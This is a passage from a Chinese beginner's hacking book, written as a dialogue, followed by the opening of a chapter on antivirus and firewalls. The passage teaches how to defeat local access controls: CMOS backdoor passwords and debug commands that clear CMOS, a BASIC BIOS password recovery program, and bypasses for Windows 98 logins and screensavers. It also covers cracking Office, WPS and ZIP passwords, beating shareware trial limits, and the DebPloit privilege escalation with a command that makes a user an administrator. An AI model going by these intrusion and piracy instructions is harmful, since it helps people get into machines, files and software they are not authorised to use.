未知
00000060H 00 00 | 7C 00 | 19 00 | 80 00 | FF 00 | FF 00 | FF 00 | FF 00
未知 | 世纪值 | 未知
00000070H 7D 00 | 81 00 | AA 00 | 0F 00 | 39 00 | 9B 00 | E8 00 | 19 00
未知
```

> 黑客提示：CMOS 的结构不止这些。要了解详细情况，请参阅相关书籍。

在 38H-3BH 这四个字节中，由于 39H 和 3BH 这两个字节一直为 00H，所以就略过。那么 CMOS 密码的关键就集中到了 38H 和 3AH 这两个字节上。

先介绍一点 Award 的密码规则。Award 允许一位至八位密码，每一个字符的范围由 20H—7FH，也就是由空格到 ASCII 码的 127 号。榕哥给阿瓜仔细讲了这一部分，最后阿瓜终于明白，八个字符要放到两个字节中去，好像不压缩一下是不行的。

榕哥说：“的确，Award 是将其压缩了，但是不是普通的压缩方法。我想 Award 另有将其加密的想法，因为在 CMOS 中空位还很多，要想放八个字节看来是没有什么问题的，不过这么裸露的密码就更加没有什么用处了。通常的压缩方式有无损压缩，如 zip、arj 等，或者是有损压缩，像 mpeg、jpeg 等。但是对这么几个字节，这些方法就没有什么用武之地了，而且压缩过的东西应该是可以还原的，否则压来压去就没有什么意义了。不过 Award 的方法就不同了，它不仅仅进行了超级的有损压缩，用的是 HASH 算法，而且这种压缩是不可还原的。”

榕哥看了看阿瓜迷惘的眼睛说：“我们看看它的加密压缩方法。假如有一密码，八位，记为：ABCDEFGH（每一位的取值范围为 20H—7FH），将其按下列公式运算：H+4*G+10*F+40*E+100*D+400*C+1000*B+4000*A，将结果按由低到高保存到：H1，H2，H3 字节中，然后将 H2 保存到地址：3AH 中，将 H1 和 H3 的和保存到 38H 中。如果密码不足八位，以此类推。明白吗？”

阿瓜摇了摇头。榕哥敲了一下阿瓜的头，说：“笨，好吧，举个例子。”

比如说，我的密码为：r*vte，ASCII 码为：72H，2AH，76H，74H，65H，按公式运算得：72*100 + 2A*40 + 76*10 + 74*4 + 65=8615，于是 H1=00H，H2=86H，H3=15H，所以 3AH 的值为 86H，38H 的值为 15H。密码就这么简单，在你每次输入密码的时候，BIOS 将其算算，再与 CMOS 中的值比较一下，如果一样就放行，否则免谈。

过程就是这样，不过还是有些问题要说明。先算算看，两个字节可以表达的密码可以有多少种：16^4=65536 种，而八位密码每一位有 96 种选择，则可以表示的密码有：96^8≈7.2×10^15 种，所以理论上说，每一个密码都可以找出大约 10^11 这么多个可以起相同作用的密码。但是事实上并不是大家都是八位的密码，或许没有大得这么吓人，不过也挺多的。就如我那个密码，光与它相同功能的五位密码就有二十五万多个，而六位、七位、八位的更多，数量不详，因为从来没有把它算完过，时间太长了，耗不起。”

阿瓜这会儿明白了，说：“那就是说很难破解了？”

榕哥喝了一口牛奶说：“理论上是这样的，不过还有简单的法子，那就是通用密码。”

##### （二）解密方法

###### 1、通用密码

Award 4.51 版以前的才有通用密码：

- wantgirl
- Syxz（pay attention to the capital letter）
- dirrid
- wnatgirl

###### 2、通用密法

榕哥说：“不同的主板驱动的密码是不一样的。你需要哪种，你可以在资料里找找。”顿了顿，又说：“我有一个密法，也告诉你吧。下面是连破十几台机器攻无不克的方法。你在 DOS 提示符下输入：”

```text
debug

o 70 2e
o 71 00
o 70 2f
o 71 00
```

这样就行了。（如图 5-1-1 所示）


> 注意：在 Win NT 下，很多破解器都无法使用，原因在于 Win NT 的 DOS 是模拟的实模式，是禁止对 CMOS 写入的，请大家注意。


榕哥吸了一下鼻子说：“阿瓜啊，你先别高兴得太早。这个法子虽然不错，但是也是有使用范围的，并不是对所有的机器都管用。”

阿瓜搔了搔，问：“那怎么办？”

榕哥说：“还有一个绝招就是——下面的法子。”

###### 3、利用解密软件破解

软件工具：CMOSpwd

只要运行此软件，就会出现如图 5-1-2 所示的界面：


5-1-2 用软件破解 CMOS 密码

榕哥指着电脑屏幕说：“图中【……】内即为 CMOS 密码，找到与你的主板型号一致的一行，即可看到相应的密码。怎么样，简单吧。”

阿瓜乐了，说道：“这个法子太简单了！我最喜欢这个啦。”

> **傻瓜问题：** 这些密码是谁弄出来的呢？  
> **答：** 生产主板的厂家为了防止意外发生，会设置通用密码，后来流传开来，就被人搜集起来了。

#### 5.1.2 破解 BIOS 密码

榕哥看了一眼窗外的阳光说：“今天天真热。”

阿瓜跟着看了一下窗外，觉得有点口渴，说：“你等会！”语音刚落，人已经在门外了。片刻，阿瓜和两只奶油雪糕一起回来了……

榕哥拿过雪糕，吃了一口说：“好，下面我们看看 BIOS 的破解。”

> **傻瓜挨了**

BIOS，即 Basic Input/Output System，就是基本输入输出系统的意思。其中存放着引导系统和最基本的输入输出程序。

榕哥边写边说道：“首先来看 BIOS 的加密算法：CMOS 1Ch 或 3Ah 处的一个字通过进位的循环左移两位，然后与输入的密码相加，最后得到的字就是密字，密码的长度不超过 8 位。算法中‘通过进位的循环左移两位’，可以把它描述为 4a-65536k+k（其中 a 为密码，k=0-3）。所以 BIOS 的加密算法可用数学公式表示为：

(……((4a7-65535k7+a6)*4-65535k6+a5)……)4-65535k1+a0=w

式中 a1 为密码，k1=0-3，w 为密字。然后就是化简求解。”

阿瓜心里嘀咕：“怎么又是公式，解密真是麻烦。”

> **傻瓜挨了**

前几位密码循环左移等同于算术左移，即 k7-k4 为 0。

榕哥顿了顿，看了一眼阿瓜说：“算法原理其实还有很多重要的没说，根据这个算法写出的 Basic 程序如下，编译通过，的确可以破解任何 BIOS 密码。你可能看不懂，不过这个程序是比较简单的。你有个大概印象也好。”

说完，打开了一个文件，文件内容如下：

```text
10 SCREEN 0
20 COLOR 10,5
30 DIM A(9)
40 CLS
50 PRINT SPACE$(980);TAB(22) "THE PASSWORD FOR THE BIOS IS:"
60 OUT&H70, 28
70 P=INP(&H71)
80 OUT&H70, 29
90 Q=INP(&H71)
100 X=16*2*Q+P
110 COLOR 30,5
120 I=0:J=0:N=0
130 Y=X+I*65535
140 Z=INT(3*Y/(4^(N+1)-1))
150 IF Z<=126 THEN 190
160 N=N+1
170 IF N<8 THEN 140
180 I=I+1:J=0:N=0:X=16*2*Q+P:GOTO 130
190 IF Z<32 THEN 180
200 A(J)=Z:J=J+1:A=Y-Z*4^N
210 IF A=0 THEN 230
220 N=N-1:Y=A:GOTO 140
230 FOR K=0 TO J
240 PRINT CHR$(A(K));
250 NEXT
260 COLOR 10,5
270 END
```


榕哥等阿瓜记录下来后说：“更简单的方法就是利用现成的工具。”

工具：BIOSpwds

运行后，出现如图 5-1-3 界面：点击“获取密码”按钮，马上就会看到如图 5-1-4 所示的结果。


阿瓜赞道：“真简单，还是这种 Windows 界面的软件好，我看了就喜欢。”

> 傻瓜提示：其实像这样的软件很多，大家可以自己找一些看看。

阿瓜学习了 CMOS 和 BIOS 的破解后总觉得不过瘾，就对榕哥说：“这些对我破解本机有什么用啊？”

榕哥嘿嘿一笑，说：“用处可大了，CMOS 和 BIOS 是进入电脑的第一道闸门，如果在这里设置密码，你要是过不去，那么你什么也干不了。”

阿瓜若有所思地点了点头，抬头又问：“那么要是过了这一关之后，下面怎么办呢？”

榕哥舔了舔雪糕说：“你听我慢慢说。”

> 傻瓜技巧：如果你要想从软盘启动电脑，就必须修改 CMOS 设置。如果 CMOS 加了密，此时 CMOS 的破解就派上用场了。

#### 5.1.3 芝麻开门——破解开机密码

榕哥指了指电脑说：“首先，看 Win98 启动密码破解。一般来说，Win98 的启动密码是没用的，因为我们不用密码也可以进入系统。当出现登录窗口时，我们只要连续敲回车就能进入系统。WinME 也是如此。不过我们看看如何破解这些密码，也能长长见识。”

方法一：删除 Windows 安装目录下的 *.pwl 密码文件，如图 5-1-5 所示。

删除图中的“*.pwl”文件。然后重启，就会弹出一个不包含任何用户名的密码设置框，直接点击“确定”，轻松过关。

> 傻瓜技巧：如果是 Win9X 系统，当出现登录对话框时，如果进不去，你可以换个用户名，然后直接点确定，就可以进去了。

方法二：只要将注册表 `KEY_LOCAL_MACHINE\Network\Logon` 分支下的 `userprofiles` 修改为“0”即可，如图 5-1-6，然后重启，一切 OK。


阿瓜听完榕哥的方法后说：“Win 98 果然是很容易进去，几乎没有什么困难。”

阿瓜想了一会儿，又问道：“那要是 Win 2000 呢？”

榕哥说：“Win 2000 要困难一些，如果没打补丁，我们可以利用它的输入法漏洞——3389 端口而进入。如果打了补丁，那就困难了。只好猜测密码了，如果猜对了，你就走运了。”


> 傻瓜提示：如果电脑安装了双系统，比如 Win98/2000，我们有机会从 Win98 进入，然后修改 Win2000 的设置。

#### 5.1.4 拉开你的窗帘——屏保破解

榕哥对阿瓜说：“利用系统的屏幕保护功能可以防止其他人使用自己的电脑，但是在不配合其他限制功能的情况下，系统的屏幕保护密码是非常脆弱的。在不知道密码的情况下，只要重新启动计算机，然后在桌面的空白处单击鼠标右键，从弹出的菜单中点击‘属性’命令。出现‘显示属性’设置框，点击‘屏幕保护’选项卡。取消‘密码保护’复选框选项即可（如图 5-1-7）。”

阿瓜问：“有别的方法吗？”

榕哥说：“当然，如果你不想这么麻烦，我们可以用别的方法。使用工具：savepwd。”


此软件不需安装，点击图标（如图 5-1-8）直接运行。运行后出现：图 5-1-9 中所示的 “SAVEME” 就是屏保密码。

#### 5.1.5 给我能量吧——电源管理密码破解

榕哥说：“有时候，Win 98 的电源管理功能也可以设置密码（如图 5-1-10），设置此功能后，系统从节能状态返回时就会要求输入密码，从而起到一定的限制功能。由于电源管理功能的密码与 Win 98 的启动密码完全一样，因此我们只要按前面的方法破解了 Win 98 的启动密码，其电源管理密码也就很容易搞掉了。”


> 傻瓜提示：如图 5-1-10 所示，把“在计算机退出待机状态时，提示输入密码”选项前的勾去掉就可以了。

### 5.2 密室玄机——文件夹的加密和破解

> 傻瓜提示：在 Win 9x 系列下，要实现文件夹的信息隐藏，方法一般都不太好用；因为 Win9x 系统本身就没有提供信息加密机制。而在 Win 2000 以上系统中，如果使用 NTFS 文件格式，那么不同的用户的文件是互不可见的。不过，如果你有本地用户权限的话，在系统存在漏洞的情况下，总是能找到破解的方法。


榕哥对阿瓜说：“在 Win 9x 系统下，将文件夹隐藏可以实现一定的信息隐蔽功能。这个方法虽然初级一点，但是用来对付对电脑了解不多的爸爸妈妈还是有点用的，不过瞒着爸爸妈妈做坏事总是不太好，嘿嘿。”

#### 5.2.1 初学者的侥幸——将文件夹隐藏

例如，我们要把下面的文件夹（如图 5-2-1）隐藏。


5-2-1 隐藏文件夹

在文件夹上点击右键，选择“属性”项，出现如图 5-2-2 所示的对话框：将“隐藏”属性选中，确定。


5-2-2 属性对话框

如果此时文件夹仍可见，则需设置“文件夹选项”属性。如图 5-2-3，打开文件夹选项设置对话框，选择“查看”选项卡，如图 5-2-4。


5-2-3 设置文件夹选项


5-2-4 设置为“不显示文件”

将“隐藏文件和文件夹”下面的“不显示隐藏的文件和文件夹”单选框选中。应用，确定。退出文件夹所在的目录，然后又进去，会发现什么呢？如图 5-2-5。


5-2-5 文件夹被隐藏起来

榕哥笑道：“哈哈，看到了吧，给阿莲的情书不见了。”

阿瓜心想：“这个法子不错，下次写情书不用急着删掉了。”

榕哥看了一眼阿瓜，笑了一下，说：“当然，我们想看到隐藏的文件夹，只需要把‘文件夹选项’设置改变就行了。”

阿瓜问：“这个方法太简单了，有没有更保险的方法呢？”

#### 5.2.2 寻根溯源——通用文件夹解密方法

榕哥答道：“除了文件夹隐藏以外，再有常用的文件夹加密方法就是使用专用的软件了。Win9x 下的加密隐藏软件很多，如 Encrypted Magic Folders、Magic Folders、Folders Guard、ProtectZ 等，都可以用来隐藏甚至加密目录。这么多的加密软件，我不可能把每一种都介绍到。其实，只要知道了加密的原理，理论上我们总可以找到破解的方法，特别是在 Win 9x 系统下。这里我们不再说具体的软件的破法。在 Win 9x 环境下，你只要把加密软件卸载掉，很多情况下，被加密的文件夹就会露出原形来的。”


点击“浏览”，打开需要破解的文件。设置好各个选项，如图 5-3-2。点击“开始”，软件就开始计算了，如果你运气好，一会儿就会看到结果。

> 阿瓜提示：这类工具可以对系统资源加以限制，但是总是能找到破解方法，其他类似软件实际上也是如此。这些其他章节已经说过，我们这里就不提了。  
> 阿瓜提示：有个更有效的方法，那就是卸载 Word，然后所有的 Word 文档都可以用写字板来打开了。所有的密码都没用了。这种方法可以看到 Word 文件的文字，但是图片等信息就没了。

### 5.3 猜谜游戏——加密文件破解

阿瓜来了以后，先给榕哥要了一杯茶，心里想着昨天学的东西，觉得很有趣。榕哥闻了下茶香，若有所思地对阿瓜说：“其实，对于本机破解来说，最有用的是加密文件的破解。”顿了顿，说：“被加密文件可以有很多种类型，其中有些是软件自带的功能，如 Word、Excel 等。我们下面就看看这些文件的解密方法吧。”

#### 5.3.1 Word 文件破解

使用工具：Wordpassview.exe

软件适用于：WINDOWS95/98/NT 系统，安装了 Word 97/2000/XP，需要 VB6 运行库的支持。

软件使用界面如图 5-3-1 所示。


#### 5.3.2 Excel 和 Access 密码破解

榕哥说道：“这两种文件的破解也都可以用软件，软件为 Excelpassview。（软件主界面如图 5-3-3）”

> 阿瓜提示：其实像这样的软件很多，这里只是略做介绍，大家有兴趣可以上网找找。


至于破解方法，与上面的一样，关键是密码选择设置得好。阿瓜心想：“这些软件都差不多嘛。”

## 5.3.3 WPS2000 文件的破解

阿瓜说：“我没用过 WPS，我只会用 Word。”

榕哥嘿嘿一笑，说：“WPS 是国产中文办公软件的精品，实力其实可以和 Word 相抗衡，在国内用 WPS 办公的人也不少，对 WPS 加密文件的破解你也是应该知道的。”

用 EdwardWpsPassWordRecovery 破解。解压后，启动程序，出现界面如图 5-3-4：


5-3-4 WPS 破解

> 这个软件的界面是英文的，不知道是不是外国人做来对付中国软件的。有作者照片是中国人啊？我们不管这些了。看看软件怎么用。

榕哥说：“这个软件相比上面说的破解 Word 和 Excel 的软件来说，功能要强多了。一个好的解密软件一是要提供各种齐全的可供选择的破解方式，二是速度要快，三是要看是否提供项目保存、事件日志等友好的用户服务。本软件三者都做到了，可以说是解密软件的上品。”

阿瓜心想：“果然是不一样。”

榕哥边操作边说：“我们看看使用方法。”

- 1. 要破解文件，首先要选择破解对象。这个软件提供了一个 `test.wps` 文件供用户来熟悉软件的操作。可以选定该文件，做练习，如图 5-3-5 所示。


5-3-5 选择文件

点击上图右边的小方框，在出现的对话框中选择要破解的文件。这里选择 `test.wps`。

- 2. 确定破解方式，如图 5-3-6 所示，从左到右一共有四种方式。分别是“暴力破解”、“字典方式破解”、“掩模破解”、“密文破解”。这里我们一一介绍。


5-3-6 破解方式

## 第一种，暴力破解方式

这种方式是指在完全不知道密码安排的情况下，指定一种暴力方式来破解。可供选择的方式有数字、大写字母、小写字母、特殊字符、空格，或所有的可打印字符等。选的越多，破解需要的时间越长。如图 5-3-7。


5-3-7 选择密码种类

我们先选择数字看看，选中 “All digits” 复选框，其他不选。切换到 “Length” 选项卡（如图 5-3-8），选择密码的长度。


5-3-8 选择密码长度

切换到 “Auto-save” 选项卡（如图 5-3-9），设置自动保存时间，可以默认。


5-3-9 自动保存选项

切换到 “Options” 选项，设置优先级。优先级高，则破解相对要快，但是优先级高了会影响其他程序的运行速度。优先级有 “High”、“Normal”、“Background” 三个级别，如图 5-3-10。


5-3-10 设置优先级

点击 “RUN” 按钮，开始密码破解。在软件的状态栏上就可以看到进度显示。

（如图5-3-11）：


5-3-11 进度显示

然后，你就可以上网聊天或者干别的事情了。看“time-remaining”上显示的剩余时间那么长，或许能得到密码。如果没得到密码，换另一种方法。

> 阿瓜嘀咕：“这么麻烦。”

第二种，字典破解方式（如图5-3-12）。


5-3-12 字典破解方式

选择密码字典。密码字典可以自己做，比如说用前面说过的“黑客字典III”，也可以用这个软件自带的密码字典。但是这个软件带的密码字典太少，只有一个“English”，所以如果不合你的要求，你最好自己做一个。


密码字典的选择如下：


5-3-13 密码字典选择

下面两个复选框的功能分别是“将单词首字母大写”和“将单词全部大写”。“Auto-save”和“Option”选项不用变。设置好密码档后，点击“RUN”，开始破解。进度显示如下：


5-3-14 密码破解进度显示

如果还不能破解，看第三种方法。

## 第三种，掩模破解方式

这种方式实际上需要和暴力破解方式结合起来。当你知道密码的大部分字符和位置时，你可以将知道的写下来，不知道的位置用“?”代替，然后选择暴力破解的范围。例如，你知道密码是pass*ord，即你不知道“*”处的字符是什么，那么你可以如图5-3-15设置。


5-3-15 Mask方式

这种方式可以大幅度提高破解的效率。

## 第四种，密文破解

这是最后一种方式。选择“Back-door”方式，如图5-3-16所示。


5-3-16 密文破解

然后，点击“RUN”。跳出一个向导，如图5-3-17所示。


5-3-17 密文破解向导

选择“是，我同意”。进入下一步。


5-3-18 检查是否普通型加密

如图5-3-18所示，此文件是普通型加密，所以可以破解。进入第三步，这一步是要你确定密钥。选择导入“私人密钥”。当然密钥要靠自己得到。这里程序提供了一个。如何得到密钥是较高级的技术了，可以去查找相关资料。弹出“打开”对话框（如图5-3-20），选择文件。确定后，如果密钥正确，进入第四步。


第四步，就是密码结果列表（如图5-3-21）。如果破解成功，密码就显示出来。

从上面的过程中，我们可以看到，如果要成功破解密码，不但要有好的软件和工具，还要有运气和耐心。

阿瓜说道：“我虽然不聪明，但是我有耐心，我不怕。”


## 5.3.4 ZIP文件的破解

阿瓜说：“我有时候下载的软件是用ZIP来压缩的，但是解压时要密码，怎么破解啊？”

榕哥说：“ZIP提供密码功能，可以对文件加密，但是破解方法并不复杂。下面我们就看看如何破解ZIP文件。”

使用工具：VZipPRP v4.7

软件使用界面如图5-3-22所示。

上图可以看出，这个软件与我们上面介绍的WPS文件破解软件的功能是很相近的。如果上面的软件会用了，那么这个也不成问题。

首先看看各个选项卡的功能（如图5-3-23）。


- 1. Optimization：此选项是用来确认文件是否使用zip/rar格式压缩。
- 2. Password options：此选项用来选择密码破解的模式。
- 3. Wordlist options：此选项用来设置密码字典文件。
- 4. Charset options：此选项用来输入用户自定义的密码字符。
- 5. System options：此选项用来设置优先级等系统信息。
- 6. Statistic：此选项是用来统计密码破解结果的。
- 7. Console：此选项用来确定密码是否正确。

> 阿瓜问：“这些都是干什么的啊？”

榕哥说：“你别急啊。下面我们举例，看看软件的使用。”

选择一个文件压缩、加密。以此文件为例，破解步骤如下。

第一步，确定待破解文件。

选择“File”→“Open zip/exe”，跳出“打开”对话框。

选择文件，确定。

第二步，选择解密模式（图5-3-24）。


5-3-24 选择解密模式

如图5-3-24，点击箭头所指处，弹出一个“Select mode”对话框（图5-3-25）。

阿瓜心想：“看上面列出这么多破解模式，这个软件的破解方式真是很多啊，功能一定很强。”

榕哥继续一边操作，一边教导阿瓜。


5-3-25 密码解密模式

我们从中选择合适的破解方式，确定。然后，再根据选择的密码破解模式确定密码文件或密码范围等设置。设置好以后，点击“GO”，如图5-3-26。


图5-3-26 工具栏

> 阿瓜提示：注意，本软件需要注册，否则解密一定数量后它就会跳出“注册”对话框。

第三步，验证密码。等解密完毕，验证密码是否正确（图5-3-27）。


5-3-27 解密结果

切换到“Console”界面进行验证（图5-3-28）。


5-3-28 密码验证

验证密码，提示“OK, It's right”，密码正确。榕哥喝了一口茶说：“OK，完了。”

### 5.4 遇佛杀佛，遇神杀神——软件使用限制破解

阿瓜等榕哥喝完了茶，问：“刚才你给我看的那个软件要注册，有没有什么方法，可以不用注册啊？”

榕哥看了一眼阿瓜说：“问得好！这就是软件使用限制的破解了。”

> 阿瓜提示：软件使用限制破解，就是指对那些需要注册码、有使用时间限制的软件进行破解。中国人不太习惯用正版软件，所以大家用的很多都是破解版的软件。不过每个软件都凝聚着作者的辛苦在里面，我们应该对辛苦软件作者的劳动表示尊敬。不过，我们这里只讲技术，不讲其他，我们就不提了。

榕哥说：“共享软件的使用限制原理是这样的。”

“许多共享软件采用有效期的方法来保护版权、维护开发者的利益，其基本原理是在安装或第一次使用时，在硬盘做一个时间标记。以后该软件启动时读取这个时间标记与当前系统时间比较，便可知道用户已使用该软件有多长时间了。一旦超出试用期限，软件便提醒用户注册，并不再正常运行了！这种时间限制的方法简单好用，被共享软件广泛采用。但这种保护方法有很大的弊病，任何一个使用者都可轻易地绕过时间检查。”

“软件在启动时检查系统时间，如果使用系统自带的时间修改命令或工具，在运行前把系统时间改到软件许可的范围，软件便误以为还在正常的试用期，有时间期限的共享软件变成了‘免费软件’！”

有的软件在启动时检查系统时间，对这样的软件可在其启动后恢复时间。有的软件在运行期间不断检查系统时间，对这样的软件就不能马上恢复现有系统时间了，只好让软件运行在“过去”。

说完，榕哥顿了顿问阿瓜：“明白吗？”

阿瓜说：“明白。”

榕哥点了点头，又说：“针对这个原理，我们就可以想出一些破解的方法。常用的方法，就是修改系统时钟。当然也可以利用一些软件来破解。”

阿瓜说：“我喜欢用软件。”

榕哥说：“那好，我给你介绍一个用来破解共享软件的精品‘时空大虾’。”榕哥说完打开一个软件，指了指屏幕说：“这是它的帮助页面（图5-4-1）。”

这个软件不需要安装，解压后可以直接运行。解压后，出现两个文件（图5-4-2）。


5-4-1 时空大虾


5-4-2 时空大师的文件

其中，右边的是帮助文件，左边是功能软件。

打开功能软件，出现一个工具条式的使用界面（图5-4-3）。


5-4-3 使用界面

点击工具条最左边的小时钟，弹出一个对话框（图5-4-4）。

第一步，点击箭头所指处，弹出“打开”对话框（图5-4-5），选择需要破解的共享软件，确定。


5-4-4 添加文件


5-4-5 选择文件图

榕哥用鼠标点着窗口说：“在设置窗口添加软件名称，并设置启动时间（见图5-4-6）。如果要运行的软件关闭时记录时间，并以该时间为新的检查时间，就选择‘记录关闭时间’有效。其中‘启动时间’要根据软件不同特点而设置，目的是使软件处在可运行的时间范围内。”

> 傻瓜提示：建议第一次使用有时间限制的软件时便使用本软件。

如果还有别的软件需要破解，可以继续添加。


5-4-6 设置完毕

添加完毕，返回。第二步，点击工具条左数第三个按钮，出现一个运行对话框（图5-4-7）。在出现的对话框中（图5-4-8）选择文件。


5-4-7


5-4-8 启动软件

在运行窗口选择要运行的软件，按“启动软件”按钮可启动该软件。这时本软件跟踪启动软件的运行。第三步，关闭启动的有时间限制的软件时，本软件自动恢复正常的系统时间。也可使用本软件提供的“恢复系统时间”强制恢复时间。

> 傻瓜技巧：  
> 1）在跟踪期间，意外断电或死机，重新启动系统时，本软件将提示系统时间有误，请手动恢复系统时间。  
> 2）退出本软件时，如不在正常的系统时间，本软件将恢复正常的系统时间。

本软件的另外一个功能是提供了注册码搜索的链接。点击工具条上的小钥匙图标，就可以进入注册码搜索的网址。

榕哥想了想对阿瓜说：“对于其他的软件使用限制，比如需要注册码等，我们如果要用就只好找注册码了，网上有不少提供注册码的网站。当然我们也可以自己做注册机，自己破解出注册码，但是那是比较高深的知识了，我就不说了。”

### 5.5 登堂入室——利用系统漏洞提升权限

阿瓜对榕哥说：“现在我关心的问题都得到答案了，不知道关于本机破解还有别的好玩的东西吗？”

榕哥嘿嘿一笑说：“其他的涉及到本机破解的还有Win 2000中用户权限的提升等，不过你也许用不到。我给你大概说一下吧。”

“这是通过Windows的一个漏洞实现的。漏洞出在smss.exe中的DEBUG子系统，所有普通用户都可以通过该漏洞获得对系统中任意进程或线程句柄的控制，从而可以以SYSTEM或管理员权限执行任意命令。”

“EliCZ发布了一个程序DebPloit，可以利用这个程序让任何人获得任何进程或者线程的句柄，从而可以让任何用户都能获得系统的最高权限，即使是一个GUEST或者其他的任何普通用户。”


榕哥顿了顿，说：“你要是经常注意网上发表的漏洞报告，还会发现许多这样的东西。”阿瓜心想：“做黑客，要知道的知识真是不少啊！”

榕哥指了指电脑屏幕上打开的文件，说：“这是解决办法。”

解决办法：目前为止，微软公司已经接到了相关的通知，但还没有就这个漏洞发布任何补丁。提供了下面的方法来修补该漏洞。注意：漏洞发布者提供的办法是修改文件smss.exe，请确认有修改必要，否则尽量等待微软推出相应的补丁程序：

- 1）编辑 `%systemroot%\system32\smss.exe` 文件。
- 2）找到字符串 `\DbgSsApiPort` 的偏移量。
- 3）在代码中找到相关注释。
- 4）在注释下面，而在调用 `NtCreatePort` 之前……
- 5）将 OBJECT_ATTRIBUTES 结构的安全描述符置为空。
- 6）然后正确设置对 PE 的校验和。
- 7）然后重新启动。

> 榕哥说：“真正的黑客，既要知道漏洞的表现和利用方法，更要知道如何弥补漏洞。”

下面是这个漏洞的利用方法。

测试软件：http://202.103.196.104/any/Fluxay/DebPloit.zip

方法：下载软件 DebPloit.exe，以普通用户 test 登录，然后运行 DebPloit.exe。

Erunasx "net localgroup administrators test /add"

呵呵，您有所悟，想到：“原来黑客的主要工作就是发现漏洞，并给出利用漏洞的方法，从而促使系统安全不断改善。”

## 傻瓜点评


## 第五章

本机破解相对于远程破解来说，介绍的内容较少。其实作为本机破解，人们做得较多的工作是对软件的破解，包括使用限制的破解、修改代码、破译原代码找出软件的漏洞，这是对技术要求很高的工作。要做这些工作，必须要熟悉编程，熟悉软件的运行原理，擅长汇编、调试等技术。人们对做这些事的人称为“Cracker”。我们这本书主要是介绍黑客的基本技术，所以对于本机破解涉及的内容较少。大家如果对本地系统感兴趣，应该多读一些操作系统的书；如果要了解远程系统，那么还要多看一些网络方面的书；如果要成为高手，不会编程肯定是不行的了。

## 傻瓜无敌——防火墙的威力

## 第6章

## 第六章 傻瓜无敌——防火墙的威力

榕哥把自己这些年来的经验全部传授给阿瓜后，阿瓜感到自己浑身都充满了力量。可是阿瓜又觉得黑客这么厉害，说不定自己一个不小心就会中招。于是阿瓜这天带了一堆好吃的给榕哥，然后提出了自己的担心。

榕哥正大嚼着山楂片，听到阿瓜的话，手一颤，山楂片差点没掉下来。榕哥盯着阿瓜日益成熟的眼睛看了一秒钟，狠了狠心，终于说道：“好，阿瓜，你终于悟道了，我就教你这最后一招——傻瓜无敌。”

阿瓜：“那是什么工夫？”

榕哥：“就是如何防止被黑啊，这很重要的，只有先做好防守工作，才能更好地进攻。你听我说，首先我们已经了解了黑客常见的入侵方法，所以现在我们就要学习如何防止被黑。更进一步，我们还可以查出是谁想黑我们。利用防火墙我们可以防止黑客入侵，通过分析日志可以查出是谁干的。”

防火墙——防止自己的电脑被黑的软件。广义的防火墙具有防止黑客连接和防止木马作怪的功能。

……的防护工具。但功能主要还是杀毒，这“毒”包括一般意义上的电脑病毒、木马以及蠕虫病毒。


6-1-1 金山毒霸工具集

### 6.1 金山毒霸

榕哥说：“金山毒霸是大家比较常用的杀毒软件，金山毒霸更新快，病毒库大，功能强，是比较好的工具。特别是对各种常见木马和蠕虫，金山毒霸都能识别出来。只要我打开金山毒霸，我的很多黑客工具就都不能用了，嘿嘿，所以我在干活的时候都是把金山毒霸关上的。木马要想在金山毒霸的眼睛下面藏起来，那可太难了。”

“现在金山毒霸最新版本是金山毒霸2002，它不仅只是能杀毒，还有其他功能，下面是它所包含的工具集。”

阿瓜惊叹：“这么多功能！这些都是做什么用的啊？”

榕哥说：“金山毒霸2002可以说是一个集成……”


6-1-2 金山毒霸的使用界面

如何查杀病毒比较简单。选定要查/杀毒的地方，然后点开始杀毒就可以了。比如我怀疑C盘有木马，于是我就如下操作。


6-1-3 查毒

程序运行时的显示为：


6-1-4 查毒过程

所以这时候你如果中了木马，就马上会发现。这样让木马成为死马是很容易的事。其实金山毒霸有个病毒防火墙的工具，启动后会在快捷启动栏里显示一个小图标（如图所示），最左边的小盾牌就是金山毒霸的病毒防火墙。这个小东西可以实时监视电脑的情况，一旦发现有病毒/木马，它就会发出警报。然后你就可以根据具体情况决定如何处理了。

嵌入式工具是来对一些应用软件提供安全保护的。还记得关于QQ的那些东西吗？有了QQ安全助手，我们就可以放心地使用QQ了。

> 阿瓜说：“好啊，好东西。那么怎么用啊？”

榕哥说：“这些都是自动执行的。你不用管，只要开启金山毒霸就行了。”

榕哥继续介绍，在实用工具里还有一些好东西。


6-1-5 金山毒霸的嵌入式工具


6-1-6 实用工具下拉框

在线升级是用来更新金山毒霸的，因为总是有新的病毒和新的木马出现，所以金山毒霸也只有不断更新才能永远有效。金山毒霸IE版是以浏览器的方式来显示杀毒界面的。


6-1-7 IE方式查毒

使用方法与上面的方法一样，只是界面改成浏览器方式，可以方便别的用户使用本机的金山毒霸来杀他们电脑上的毒。

病毒隔离系统是当有的文件感染了病毒而又不能清除时，就用这个病毒隔离系统隔离开，那么病毒或木马就不能再有什么作为了。


6-1-8 病毒隔离系统

邮件监控是监控邮件是否带有病毒。使用这项功能首先要在电脑上装有邮件客户端，比如Outlook。


6-1-9 邮件监控程序

使用这个软件可以查出邮件里的病毒，避免危险。

阿瓜说：“我没用过什么邮件客户端啊，那怎么办？”

榕哥叹了口气，摸了摸阿瓜的头说：“阿瓜啊，你总是这么可爱！你不用邮件客户端的话，那你什么也不用办，因为你没有危险。如果邮件里有附件，你就 down 下来，然后杀毒就行了。”

榕哥喝了口雪碧说：“其实金山毒霸的工具包里对于网络防黑来说更有用的是金山网镖，就是网络保镖啦。”


6-1-10 金山网镖

金山网镖可以设置网络的安全保护级别，分为高、中、低三档，级别越高安全性越好。但是在高级别的安全模式下，有些软件的功能可能会受影响，所以一般设成中级即可。如果需要使网络连接暂时断开，可以点断开网络的图标。

点击图 6-1-10 的小按钮，出现系统设置图表。


6-1-11 系统设置

这里显示了所有连接网络的程序。每当有新程序试图连接网络时，金山毒霸就会问你如何处理。如果你的电脑里有木马，那么你就可以轻而易举地发现并铲除它。

在安全日志里则记录了连接你的电脑的主机，或试图连接你的电脑的主机。从这里你可以很容易看到到底是谁想黑你。

不过金山网镖相对于天网防火墙来说，在网络监测方面做得还是有点粗糙。

阿瓜：“那天网防火墙是什么样子啊？”


6-1-12 安全日志

### 6.2 天网防火墙

榕哥作回忆状说：“天网是我用的最早的国产个人防火墙。它的功能发展到现在已经很完备了，是菜鸟的必备道具。你用它可以做很多事。所以我们现在来好好看看它。Ready go! 先来给你介绍介绍它吧……”

